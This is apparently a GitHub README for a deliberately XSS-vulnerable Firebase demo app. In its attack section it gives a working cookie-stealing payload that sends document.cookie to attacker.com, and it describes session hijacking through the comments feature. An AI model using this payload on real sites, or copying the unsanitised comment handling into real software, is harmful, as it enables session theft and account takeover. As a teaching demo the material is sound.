 #XSS Session Hijacking Attack
This project demonstrates session hijacking attacks using Cross-Site Scripting (XSS). The application uses Firebase for authentication and Firestore for data storage.

##Prerequisites
Node.js and npm installed on your system.
Firebase project setup with Firestore and Authentication enabled.
##Installation
1. Clone the repository:
```
git clone https://github.com/your-repo/xss-session-hijacking-attack.git](https://github.com/himIbraa/Session-Hijacking-Attack-through-XSS-Vulnerabilities
```
2. Navigate to the project directory:
```
cd xss-session-hijacking-attack
```
3. Install the dependencies:
```
npm install
```
##Firebase Configuration

1. Create a Firebase project at Firebase Console.

2. Enable Firestore and Authentication in your Firebase project.

3. Copy your Firebase project's configuration and replace the configuration in firebase-config.js with your own:
```
const firebaseConfig = {
  apiKey: "YOUR_API_KEY",
  authDomain: "YOUR_AUTH_DOMAIN",
  databaseURL: "YOUR_DATABASE_URL",
  projectId: "YOUR_PROJECT_ID",
  storageBucket: "YOUR_STORAGE_BUCKET",
  messagingSenderId: "YOUR_MESSAGING_SENDER_ID",
  appId: "YOUR_APP_ID",
  measurementId: "YOUR_MEASUREMENT_ID",
};
firebase.initializeApp(firebaseConfig);

const db = firebase.firestore();
const auth = firebase.auth();
```
##Running the Project
1. Start the server:
```
npm start
```
2. Open your browser and navigate to http://localhost:8080.
##Project Usage
1. Login and Signup: Users can sign up and log in to the application through the login.html page.
2. Add Posts: Logged-in users can add posts on the main feed page (index.html).
3. View Posts: All posts are displayed on the allPosts.html page.
4. Comments: Users can add comments to posts, which are displayed on the comments.html page.
##Dependencies
- Firebase: Used for authentication and Firestore database.
- http-server: A simple, zero-configuration command-line HTTP server.
##XSS Vulnerability
This project is intentionally vulnerable to Cross-Site Scripting (XSS) session hijacking attacks. An attacker can inject malicious scripts into the comments section, which can steal session cookies and hijack user sessions.

###How to Perform the Attack
1. Post a Malicious Comment: An attacker can post a comment containing a script to steal cookies. For example:
```
<script>
  document.write('<img src="http://attacker.com/steal?cookie=' + document.cookie + '" />');
</script>
```
2. View the Malicious Comment: When another user views the post with the malicious comment, their session cookie is sent to the attacker's server.

3. Hijack the Session: The attacker can use the stolen cookie to impersonate the user and hijack their session.


To run the project using npm, ensure you have followed the installation steps and configured Firebase correctly. Use the npm start command to launch the server and navigate to http://localhost:8080 in your browser to access the application.
